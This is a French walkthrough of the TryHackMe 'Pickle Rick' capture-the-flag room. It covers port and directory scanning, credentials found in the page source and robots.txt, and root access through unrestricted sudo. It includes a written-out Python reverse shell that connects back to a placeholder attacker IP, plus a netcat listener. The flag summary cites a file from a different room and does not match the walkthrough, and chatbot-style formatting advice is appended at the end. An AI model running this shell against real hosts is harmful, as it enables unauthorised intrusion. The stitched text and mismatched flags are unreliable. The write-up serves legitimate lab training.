

# **CTF Write-Up: Pickle Rick**

## **Description**
Write-up détaillé pour résoudre le challenge *Pickle Rick* de TryHackMe. Toutes les étapes, outils, et captures d’écran sont inclus.

---

## **Étapes de Résolution**

### **1. Analyse initiale du serveur**
- **Ping :** Vérification que le serveur est actif.
- **Nmap scan :**
  ```bash
  nmap -sV -p- <IP-CIBLE>
  ```
  - **Résultats :**
    - Port 80 : HTTP (Apache/2.4.41)
    - Port 22 : SSH


---

### **2. Exploration de la page web**
- **Inspection du code source :** Découverte du nom d’utilisateur.
  - **Nom d’utilisateur :** `R1ckRul3s`


---

### **3. Recherche des répertoires cachés**
- **Dirb scan :**
  ```bash
  dirb http://<IP-CIBLE>/ <WORDLIST>
  ```
  - **Résultats :** Découverte de `/robots.txt` contenant `Wubbalubbadubdub`.


---

### **4. Utilisation de Nikto**
- **Commande :**
  ```bash
  nikto -h http://<IP-CIBLE>/
  ```
  - **Résultats :** Découverte de `/login.php`.


---

### **5. Connexion au panneau de contrôle**
- **Identifiants utilisés :**
  - **Nom d’utilisateur :** `R1ckRul3s`
  - **Mot de passe :** `Wubbalubbadubdub`
- **Résultat :** Accès au panneau de contrôle.


---

### **6. Exploitation avec Reverse Shell**
- **Vérification de Python 3 sur la cible :**
  ```bash
  which python3
  ```
- **Reverse shell envoyé depuis le site :**
  ```bash
  python3 -c 'import socket,os; s=socket.socket(); s.connect(("IP-ATTAQUANT",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
  ```
- **Netcat en écoute sur l’attaquant :**
  ```bash
  nc -lvnp <PORT>
  ```
- **Résultat :** Shell interactif avec les permissions `www-data`.



---

### **7. Escalade de privilèges**
- **Analyse des permissions sudo :**
  ```bash
  sudo -L
  ```
  - **Résultats :** Permissions root disponibles.
- **Commande pour devenir root :**
  ```bash
  sudo bash -i
  ```
- **Résultat :** Accès root obtenu.


---

### **8. Exploration finale**
- **Recherche dans le répertoire root :**
  - Découverte du troisième et dernier flag.


---

## **Résumé des Flags**
1. **Flag 1 :** Contenu trouvé dans le fichier `fsocity.dic`.
2. **Flag 2 :** Contenu du fichier `clue.txt`.
3. **Flag 3 :** Contenu trouvé dans le répertoire `/root`.

---

## **Outils et Commandes Utilisés**
- **Nmap** : Pour énumérer les ports et services.
- **Netcat** : Vérification de la connectivité.
- **Gobuster/Dirb** : Énumération de répertoires.
- **Nikto** : Scan de vulnérabilités sur le serveur web.
- **Reverse Shell** : Exploitation pour obtenir un shell interactif.
- **Sudo** : Escalade de privilèges pour devenir root.

---

## **Licence**
Ce write-up est partagé à titre éducatif uniquement. Veuillez respecter les lois et ne pas utiliser ces techniques sans autorisation.
```

---

### Points à vérifier :
1. **Vérifiez les noms exacts des images** : 
   - Assurez-vous que les noms des fichiers correspondent exactement, y compris la casse (majuscules/minuscules) et l’extension (.png).
2. **Images dans `image/`** : 
   - Toutes vos images doivent être dans le dossier `image/`.
3. **Rendu final** :
   - Une fois ce texte ajouté, cliquez sur l'onglet **Preview** pour vérifier que tout fonctionne correctement.

Si vous rencontrez encore des problèmes, envoyez-moi les erreurs ou comportements rencontrés !
